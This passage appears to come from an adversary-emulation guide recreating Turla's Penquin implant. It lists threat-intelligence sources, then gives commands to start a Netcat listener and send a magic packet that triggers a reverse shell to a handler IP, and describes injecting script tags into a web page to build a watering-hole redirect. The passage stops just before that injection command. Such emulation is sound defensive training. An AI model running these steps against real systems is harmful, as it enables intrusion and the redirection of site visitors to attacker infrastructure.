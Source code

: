 ### :microscope: Cited Intelligence

* <https://www.leonardo.com/documents/20142/10868623/Malware+Technical+Insight+_Turla+%E2%80%9CPenquin_x64%E2%80%9D.pdf>
* <https://media.kasperskycontenthub.com/wp-content/uploads/sites/43/2018/03/07180251/Penquins_Moonlit_Maze_PDF_eng.pdf>
* <https://securelist.com/the-penquin-turla-2/67962/>
* <https://www.youtube.com/watch?v=JXsjRUxx47E&t=647s>
* <https://lab52.io/blog/looking-for-penquins-in-the-wild/>

<br>

## Step 10 - Installation of Watering Hole

:microphone: `Voice Track:`

Step 10 emulates Turla sending a magic packet to the Apache server, on which
the sniffer component of Penquin reads the magic packet, parses the packet
for the IP address to connect to, and triggers the establishment of a reverse
shell.

First, a few discovery commands are sent through the established reverse shell.
Aditional HTML is then appended to the webpage previously edited by Adalwolfa,
containing script tags that load another simple JavaScript file hosted by the
adversary's malicious site, anto-int[.]com, that redirects users who browse to `http://kagarov/index.html` to
the adversary's malicious site instead, thus completing the installation of the
watering hole.

---

### ☣️ Procedures

* :arrow_right: From your Kali C2 server terminal, open a new terminal tab using Ctrl+Shift+T. Recommended: rename the new tab to `Penquin NC`

* In the new tab, set up a Netcat listener for Penquin's reverse shell to connect to:

```bash
nc -lvvp 8081
```

* Right click and split the window horizontally. Run the following commands to send the magic packet to the Apache server using
the `sendPacket.py` utility.

```bash
cd /opt/day1/turla
sudo -E python3 Resources/Penquin/sendPacket.py --handler_ip 176.59.15.33 --handler_port 8081 --target_ip 10.20.10.23 --target_port 8080 --payload_type base64
```

* Wait a few seconds and then check the Netcat tab (`Penquin NC`). The Netcat prompt should report a successful connection.

* In the terminal where the reverse shell has connected to the Netcat listener, paste the following command to add the
 watering hole redirection to index.html:
